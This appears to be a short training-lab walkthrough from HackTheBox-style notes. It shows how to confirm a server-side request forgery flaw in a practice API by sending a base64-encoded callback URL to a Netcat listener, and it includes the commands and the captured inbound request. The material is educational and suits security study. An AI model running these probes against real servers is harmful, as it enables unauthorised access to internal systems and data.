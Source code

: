 ```yaml
---
title: e-SSRF
draft: false
tags:
  - ssrf
---
```

Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution

> Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.

```shell-session
jadu101@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

API is expecting a parameter `id`. 

Since we are assessing for SSRF currently, we will first set up Netcat listener:

```shell-session
jadu101@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Now let's try the following command, pointing towards our listener:

```shell-session
jadu101@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

Let's try base64 encoding and sending it again:

```shell-session
jadu101@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
jadu101@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

```shell-session
jadu101@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

As time allows, try to provide APIs with input in various formats/encodings.

